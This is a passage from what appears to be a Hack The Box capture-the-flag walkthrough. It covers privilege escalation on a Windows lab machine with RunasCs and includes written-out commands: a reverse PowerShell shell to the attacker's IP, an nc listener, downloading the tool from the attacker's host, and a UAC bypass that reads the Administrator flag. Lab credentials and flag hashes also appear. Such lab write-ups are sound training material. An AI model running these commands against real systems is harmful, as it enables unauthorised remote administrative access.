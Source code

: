 ![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616193341.png)

As seen, we got same rights as admin, after that using `runasCS` we can send ourselves a shell or read the root flag:

```
.\RunasCs.exe "M.SchoolBus" "!suBcig@MehTed!R" powershell.exe -r IP:9001 --remote-impersonation --logon-type 3
```

Now we simply can use `nc`:

```
nc -lvnp 9001
```

We need to get `runasCS.exe` before doing all this, you can get it on here:

REPO: https://github.com/antonioCoco/RunasCs/releases

Unzip the file and you will get it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616185949.png)

Now, use the same method to get it on our windows machine:

```
Invoke-WebRequest -Uri "http://IP:8000/RunasCs.exe" -OutFile "RunasCs.exe"
```

If we simply want to read root flag, we can do:

```
\RunasCs.exe M.SchoolBus "!suBcig@MehTed!R" "cmd /c type C:\Users\Administrator\Desktop\root.txt" -l 2 -f 2 --bypass-uac    

79cf6d3be2e1e49b4a39a156a363eb9e
```

We can read both flags then:

```
PS C:\Users\f.frizzle> type C:\Users\f.frizzle\Desktop\user.txt
cdea7fdecdd95ce9e7c3734af9bfeaae

PS C:\Users\M.SchoolBus> .\RunasCs.exe M.SchoolBus "!suBcig@MehTed!R" "cmd /c type C:\Users\Administrator\Desktop\root.txt" -l 2 -f 2 --bypass-uac    

79cf6d3be2e1e49b4a39a156a363eb9e
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250616194457.png)

https://www.hackthebox.com/achievement/machine/1872557/652



